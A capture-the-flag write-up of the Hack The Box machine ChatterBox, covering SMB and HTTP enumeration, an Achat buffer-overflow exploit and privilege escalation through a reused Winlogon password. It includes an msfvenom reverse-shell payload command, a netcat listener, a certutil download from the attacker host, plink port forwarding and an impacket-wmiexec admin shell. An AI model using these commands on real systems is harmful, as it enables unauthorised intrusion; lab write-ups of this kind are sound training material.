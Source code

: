 # ChatterBox [HTB](https://app.hackthebox.com/machines/Chatterbox)
![chatterbox-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/chatterbox-01.png)



## Recon

Lets enumerate the machine with `nmap`:

`nmap -sC -sV -A 10.129.214.7 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/nmap-res-02.png)


We
We get the following ports:

+ RPC endpoint-mapper on port 135.
+ SMB on port  445.
+ NetBIOS on port 139.
+ HTTP on port 9255.
+ Custom TCP service on port 9256.
+ Other RPC endpoint on 49152-49157.


We can also see the target is probably a Windows 7 system. 
Lets start by taking a look at the SMB and RPC endpoints and see if we can snatch any quick 
wins there. 



### SMB


Altough we can login anonymously to the IPC$ share with `smbclient -U "%" -N \\\\10.129.214.7\\IPC$`:

![ipc-connect-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-connect-03.png)


We cant do anything inside: 

![ipc-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-fail-04.png)


If we check the SMB version with msf's `scanner/smb/smb_version`, well see that the target 
is running SMB v2.1: 

![msf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/msf-res-05.png)



SMB v2.1, should be vulnerable to `Eternal-Blue`, but after a quick check our target is not:
`scanner/smb/smb_ms17_010`

![eb-res-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/eb-res-06.png)
 

At the moment, SMB doesnt look like the way forward, `enum4linux` yields nothing meaningful, 
and it seems that the SMB is tightly guarded. 

Lets move on to check the HTTP and the custom RPC port. 



### Achat


Trying to open the following URL `http://10.129.214.7:9255/`, quickly fails, nothing happens, 
no error message or redirects. Adding the hostname to our `/etc/hosts` doenst help. 


If we open Burp, we can see we are getting a `204 No-Content` replay: 

![204-replay-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/204-replay-07.png)



At first i thought Achat was a custom service tailored for this box specifically. But after
a quick goolge search i came to find out i was worng. Apparently its an open-source anonymous chat
application, and it has a [github](https://github.com/0301yasiru/aChat).


A quick goolge search also leads to [this](https://tenaka.gitbook.io/pentesting/boxes/achat) page.
Apparently, Achat is vulnerable to a buffer-overflow attack, and we have the exploit ready on 
our Kali machine in `/usr/share/exploitdb/exploits/windows/remote/36025.py`. 


Here is the exploit breakdown: 

copy the exploit to our CWD `cp /usr/share/exploitdb/exploits/windows/remote/36025.py achat.py`

update the shellcode with the following `msfvenom` command:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=<myip> lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Take the output, and replace the `buf` varaible in the exploit with it.
Finally, change the target IP in the exploit:

![target-exp-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/target-exp-08.png)


Start the listener: `nc -lnvp 4444`


Execute the exploit `./achat.py`


Get a shell: 

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/shell-09.png)


## Privilege Escalation


After running a few basic commands from [sushant](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)'s cheat sheet, i found something interesting. 

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`


![pass-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/pass-10.png)


If we list out our open ports on the machine with `netstat -ano` we can see the following: 


![netstat-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/netstat-11.png)


We have all these ports running on the localhost. nmap did manage to detect them for some 
reason. Now that we have credetials however, we could try to get access to them. But since they 
are running on the localhost, we need to setup port forwarding to our attack machine. 

For this we need [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html),
Download the 32-bit version to your attack machine.

Start a python server `python3 -m http.server 8888`

Download it to the target with `certutil -urlcache -f http://10.10.14.21:8888/plink.exe plink.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/transfer-12.png)


Now we need to change two things in the `/etc/sshd/sshd_config` file on our kali:
First, permit root logins: 

![ssh-mod-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-13.png)


Second, change the deafult port to 2222:

![ssh-mod-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-14.png)


This is necessary beacuse HTB's firewalls block port 22. 
Finally start the ssh service with `service ssh start`.

Now we can run the port forwarding on the target machine with:
`plink.exe -l root -pw <pass> -R 445:127.0.0.0.1:445 10.10.14.68 -P 2222`


![plink-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/plink-15.png)


On our Kali machine we can check the status of port 445 with `netstat -ao | grep 445`:


![445-status-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/445-status-16.png)


We can now start connecting to the SMB on the target through our localhost. 
Lets try logging in to the Admin$ share with `smbclient -U 'Alfred%Welcome1!' //127.0.0.1/Admin$`

![admin-fail-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-fail-17.png)


This fails, says we dont have access. What if we tried to use the same password with the 
Administrator account, after all Alfred and Administrator are the only two users on the machine.
And weve only found this one password in our enumeration, worth a shot. 


![admin-success-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-success-18.png)



That's it, they use the same password. From here we can use `wmiexec` to pop a shell as the admin. 
`impacket-wmiexec Administrator:Welcome1\!@10.129.151.176`


![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/root-19.png)
